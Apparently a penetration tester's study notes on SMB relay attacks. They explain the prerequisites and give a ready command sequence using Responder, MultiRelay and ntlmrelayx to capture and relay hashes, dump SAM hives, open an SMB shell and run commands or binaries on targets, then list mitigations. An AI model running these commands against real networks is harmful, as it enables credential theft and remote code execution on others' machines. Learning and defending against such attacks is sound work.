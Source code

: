 # Smb Relay

## What is SMB Relay?

- Capture hashes
- Relay them to other hosts to authenticate
- No need to crack hashes with hashcat

## Requirements

- SMB signing must be disabled on the target
- SMB signing checks authenticity of SMB packets
- Relayed user credentials must be admin on target machine

## Exploitation

```bash
# Discover hosts with SMB signing disabled
python RunFinger.py -i 10.0.0.2/24
nmap --script=smb2-security-mode -p 445 -v 10.10.10.0/24

# Turn off HTTP and SMB in Responder.conf
nvim Responder.conf

# Start responder
python Responder.py -I tun0 -rdwv

# Set up relay

# Target specific host
python MultiRelay.py -t 10.0.2.4 -u ALL

# Target multiple hosts

# Dump SAM hive
python ntlmrelayx.py -tf targets.txt -smb2support

# Interactive SMB shell
python ntlmrelayx.py -tf targets.txt -smb2support -i
nc 127.0.0.1 11000

# Execute command
python ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"

# Execute binary
python ntlmrelayx.py -tf targets.txt -smb2support -e "shell.exe"
```

## Mitigation

- Enable SMB signing on all devices (may cause performance issues with file copies)
- Disable NTLM authentication on the network but Windows can default back to it if Kerberos stops working
- Account tiering: limit domain admins to specific tasks
- Local admin restriction (can increase service deskt tickets)
